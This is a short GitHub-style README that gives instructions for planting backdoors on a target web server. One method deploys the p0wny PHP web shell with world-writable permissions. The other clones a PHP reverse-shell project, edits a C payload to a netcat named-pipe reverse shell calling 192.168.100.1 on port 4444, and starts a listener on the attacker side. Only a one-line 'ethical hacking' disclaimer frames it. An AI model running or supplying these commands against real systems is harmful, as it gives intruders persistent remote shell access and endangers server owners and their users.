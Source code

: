 ## Information

I am not responsible for any consequences caused by this script because this script was created for `Ethical Hacking` purposes.


## Methode 1 (PHPShell)

Download PHPShell (Target Folder, Example : /var/www/html)
```
https://github.com/flozz/p0wny-shell.git
```
```
chmod -R 777 *
```

Access Web Server with Browser
```
http://targetwebsite.com/shell.php 
```

## Methode 2 (Reverse Shell)

Download Payload (Target Folder, Example : /var/www/html)
```
git clone https://github.com/anggrdwjy/php-reverse-shell.git
```
```
cd php-reverse-shell
```
```
chmod -R 777 *
```

Edit File : payload_nc.c
```
system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.100.1 4444 >/tmp/f");  //Edit Line 5
```

Running File : gcc.sh
```
./gcc.sh
```

Access Web Server with Browser
```
http://targetwebsite.com/backdoor.php 
```

## Attacker Side
```
nc -tnlp 4444 
```

## Support

* [:octocat: Follow me on GitHub](https://github.com/anggrdwjy)
* [🔔 Subscribe me on Youtube](https://www.youtube.com/@anggarda.wijaya)

## References

* https://github.com/kurniawandata
* https://github.com/flozz/p0wny-shell
